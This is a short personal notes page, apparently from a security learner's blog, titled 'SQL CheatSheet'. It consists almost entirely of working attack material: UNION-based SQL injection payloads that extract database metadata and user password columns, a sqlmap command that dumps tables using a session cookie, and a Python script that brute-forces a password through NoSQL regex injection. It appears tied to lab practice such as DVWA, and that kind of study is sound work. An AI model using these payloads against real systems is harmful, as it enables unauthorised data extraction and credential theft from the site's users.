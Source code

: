 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version<br>
%' or 0=0 union select null, version() #<br>
<br>
Display Database User<br>
%' or 0=0 union select null, user() #<br>
<br>
Display Database Name<br>
%' or 0=0 union select null, database() #<br>
<br>
Display all tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables #<br>
<br>
Display all the user tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#<br>
<br>
Display all the columns fields in the information_schema user table<br>
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #<br>
<br>
Display all the columns field contents in the information_schema user table<br>
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #<br>
</p>

<code>sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump</code>

<h2>Nosql</h2>

<h4>shitscript</h4>


<pre><code>
import requests
bruten = '1234567890abcdef-'
xx=0
x = bruten[xx]
keylist = ""
keystr = keylist + x
#URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
r = requests.get(URL)
s = (len(r.content))

while True:
  try:
    for i in range(0, 17):    
      x = bruten[xx]
      keystr = keylist + x
      #URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
      URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
      print(URL)
      print(keystr)
      #print(keylist)
      r = requests.get(URL)
      s = (len(r.content))
      #print(s)
      if s == 1614:
        keystr = keylist + x
        keystr = keystr
        keylist = keylist + x
        #print(keylist)
        xx=0
        continue
  
      else:
        #keylist = ""
        keystr = keylist + x
        keystr = keystr
        xx+=1
        continue
    except:
      print("crackarooniedddddd")
      print('password is ' + keystr[:-1])
      break  </code></pre>